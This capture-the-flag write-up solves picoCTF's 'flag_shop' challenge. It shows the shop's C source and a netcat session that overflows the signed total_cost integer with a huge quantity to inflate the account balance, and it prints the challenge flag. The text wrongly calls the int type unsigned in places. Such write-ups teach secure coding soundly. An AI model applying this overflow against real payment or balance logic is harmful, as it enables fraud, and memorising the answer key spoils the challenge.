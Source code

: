 
# General Skills - flag_shop (300 points)

## Challenge

*There's a flag shop selling stuff, can you buy a flag? Source. Connect with nc 2019shell1.picoctf.com 60851.*

![Challenge](./_images/general_skills_flag_shop_challenge.png)

```C
#include <stdio.h>
#include <stdlib.h>
int main()
{
    setbuf(stdout, NULL);
    int con;
    con = 0;
    int account_balance = 1100;
    while(con == 0){

        printf("Welcome to the flag exchange\n");
        printf("We sell flags\n");

        printf("\n1. Check Account Balance\n");
        printf("\n2. Buy Flags\n");
        printf("\n3. Exit\n");
        int menu;
        printf("\n Enter a menu selection\n");
        fflush(stdin);
        scanf("%d", &menu);
        if(menu == 1){
            printf("\n\n\n Balance: %d \n\n\n", account_balance);
        }
        else if(menu == 2){
            printf("Currently for sale\n");
            printf("1. Defintely not the flag Flag\n");
            printf("2. 1337 Flag\n");
            int auction_choice;
            fflush(stdin);
            scanf("%d", &auction_choice);
            if(auction_choice == 1){
                printf("These knockoff Flags cost 900 each, enter desired quantity\n");

                int number_flags = 0;
                fflush(stdin);
                scanf("%d", &number_flags);
                if(number_flags > 0){
                    int total_cost = 0;
                    total_cost = 900*number_flags;
                    printf("\nThe final cost is: %d\n", total_cost);
                    if(total_cost <= account_balance){
                        account_balance = account_balance - total_cost;
                        printf("\nYour current balance after transaction: %d\n\n", account_balance);
                    }
                    else{
                        printf("Not enough funds to complete purchase\n");
                    }
                }
            }
            else if(auction_choice == 2){
                printf("1337 flags cost 100000 dollars, and we only have 1 in stock\n");
                printf("Enter 1 to buy one");
                int bid = 0;
                fflush(stdin);
                scanf("%d", &bid);

                if(bid == 1){
                    if(account_balance > 100000){
                        FILE *f = fopen("flag.txt", "r");
                        if(f == NULL){

                            printf("flag not found: please run this on the server\n");
                            exit(0);
                        }
                        char buf[64];
                        fgets(buf, 63, f);
                        printf("YOUR FLAG IS: %s\n", buf);
                        }
                    else{
                        printf("\nNot enough funds for transaction\n\n\n");
                    }}
            }
        }
        else{
            con = 1;
        }
    }
    return 0;
}

```

## Flag

picoCTF{m0n3y_bag5_34c9a5f7}

## Walkthrough

Walking through the store, we guess that we have to buy the *1337 flags*. Guess what, we don't have enough money for this...

Looking at the store source, there is an interesting thing here :

```C
int total_cost = 0; (4 bytes / signed)
total_cost = 900*number_flags;
```

*total_cost* is defined as an *int*, i.e. a 4 bytes unsigned integer. Its value is linked to a user input: the number of flags to buy. So we can perform a nice unsigned interger overflow here, to get a negative value and so more money :)

Unsigned int values range from -2,147,483,648 to 2,147,483,647. Divided by 900, we just have to buy more than 2,386,092‬ flags to produce an integer overflow so that `account_balance - total_cost` does not overflow (else our overflow is going to cause another overflow and a negative balance...).

Let's try with 2,386,095 flags :

```bash
root@kali:~# nc 2019shell1.picoctf.com 60851
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
2386095

The final cost is: -2147481796

Your current balance after transaction: 2147482896
```

I'm rich !, now the flag :

```bash
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{m0n3y_bag5_34c9a5f7}
```
